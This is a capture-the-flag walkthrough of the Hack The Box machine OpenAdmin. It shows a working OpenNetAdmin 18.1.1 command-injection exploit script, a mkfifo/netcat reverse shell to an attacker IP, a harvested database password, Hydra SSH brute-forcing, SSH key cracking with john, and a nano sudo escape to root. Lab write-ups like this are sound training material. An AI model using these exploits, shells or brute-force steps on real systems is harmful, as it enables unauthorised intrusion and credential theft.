 ```yaml
---
cover: ../.gitbook/assets/ChatGPT Image May 31, 2025, 09_02_25 AM.png
coverY: 0
---
```


# 🕵️ HTB: OpenAdmin – RCE, Privilege Escalation, and the Art of Improvisation

<figure><img src="../.gitbook/assets/ChatGPT Image May 31, 2025, 09_02_25 AM.png" alt=""><figcaption></figcaption></figure>

### 🔍 Enumeration Phase

We begin the usual way—**recon** with `nmap`.

**Open ports**:

* 22 (SSH)
* 80 (HTTP)

Port 80 means web enumeration. Time to let **ffuf** loose:

<figure><img src="../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

```bash
ffuf -u http://10.10.10.171/FUZZ -w /usr/share/wordlists/dirb/common.txt -mc 200,204,301,302,307,401 -o results.txt
```

**Interesting hits**:

* `/music/`
* `/sierra/`
* `/artwork/`

Crawling with **hakrawler** through Burp gave a promising path:

```bash
cat urls.txt | hakrawler -proxy http://localhost:8080
```

Bingo. This is **OpenNetAdmin**, and version **18.1.1** specifically.

### 💥 Initial Foothold: RCE via OpenNetAdmin

Quick search on [ExploitDB](https://www.exploit-db.com/exploits/47691) brings up an RCE:

```bash
#!/bin/bash

URL="${1}"
while true;do
 echo -n "$ "; read cmd
 curl -x http://localhost:8080 --silent -d "xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;echo \"BEGIN\";${cmd};echo \"END\"&xajaxargs[]=ping" "${URL}" | sed -n -e '/BEGIN/,/END/ p' | tail -n +2 | head -n -1
done
```

With a little Burp Proxy magic, we got a working shell. Though unstable, it did the job.

### 🧠 Privilege Escalation Begins

Time for lateral movement. Classic reverse shell:

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.2 1234 >/tmp/f

```

```bash
nv -lvnp 1234
```

```bash
/usr/bin/python3 -c 'import pty;pty.spawn("/bin/bash")'
```

### 📦 Credential Harvesting

A quick loot run on config files reveals gold:

```bash
cat /var/www/html/ona/local/config/database_settings.inc.php
```

```bash
        'db_login' => 'ona_sys',
        'db_passwd' => 'n1nj4W4rri0R!',
```

### 🔐 SSH Brute-force and User Access

Grabbed usernames from `/etc/passwd`:

```
jimmy  
joanna  
root  
```

Brute-forced via Hydra:

```bash
hydra -L user.txt -P password.txt ssh://10.10.10.171

```

🎯 Hit confirmed: jimmy : n1nj4W4rri0R!



```bash
ssh jimmy@10.10.10.171
```

### 🕵️ Discovery and Key Recovery

Exploring `/var/www/internal` (finally accessible as jimmy), we find something new. The page isn’t accessible over HTTP, but we can curl it locally:

```bash
curl localhost:52846/main.php
```

<figure><img src="../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

And boom—we find an SSH private key.

But it's encrypted. Time for `john` magic:

```bash
ssh2john key > hash  
john hash --wordlist=/usr/share/wordlists/rockyou.txt
```

### ⚡ Privilege Escalation to Root

We check what joanna can run:

```
sudo -l
```

Allowed to run:

```
/bin/nano /opt/priv
```

We abuse it using a classic `nano` GTFOBins technique:

Inside nano:

```
^R^X
cat /root/root.txt
```

<figure><img src="../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

for a shell

```
^R^X
reset; sh 1>&0 2>&0

```

